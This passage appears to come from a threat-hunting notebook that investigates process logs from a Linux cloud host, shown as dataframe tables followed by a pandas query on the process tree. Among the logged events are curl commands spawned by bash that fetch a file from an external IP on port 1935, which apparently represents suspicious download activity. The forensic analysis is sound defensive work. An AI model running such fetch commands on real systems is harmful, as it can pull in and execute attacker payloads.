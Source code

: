       <td>ip-172-16-40-100</td>
      <td>-</td>
      <td>2023-04-29 17:53:35.542</td>
      <td>-</td>
      <td>/usr/bin/wget</td>
      <td>110511</td>
      <td>wget --timeout 60 -U wget/1.21.2-2ubuntu1 Ubuntu/22.04.1/LTS GNU/Linux/5.15.0-1028-aws/x86_64 Intel(R)/Xeon(R)/Platinum/8259CL/CPU/@/2.50GHz cloud_id/aws -O- --content-on-error https://motd.ubuntu.com</td>
      <td>110488</td>
      <td>/bin/sh</td>
      <td>256</td>
    </tr>
    <tr>
      <th>3</th>
      <td>ip-172-16-40-100</td>
      <td>-</td>
      <td>2023-04-29 19:59:29.656</td>
      <td>-</td>
      <td>/usr/bin/curl</td>
      <td>111340</td>
      <td>curl http://18.220.210.56:1935/b</td>
      <td>111317</td>
      <td>bash</td>
      <td>512</td>
    </tr>
    <tr>
      <th>4</th>
      <td>ip-172-16-40-100</td>
      <td>-</td>
      <td>2023-04-29 19:59:58.504</td>
      <td>-</td>
      <td>/usr/bin/curl</td>
      <td>111343</td>
      <td>curl http://18.220.210.56:1935/b</td>
      <td>111317</td>
      <td>bash</td>
      <td>512</td>
    </tr>
  </tbody>
</table>
</div>




```python
df_process_tree[df_process_tree['ProcessId'] == 11317]
```




<div>
<style scoped>
    .dataframe tbody tr th:only-of-type {
        vertical-align: middle;
    }
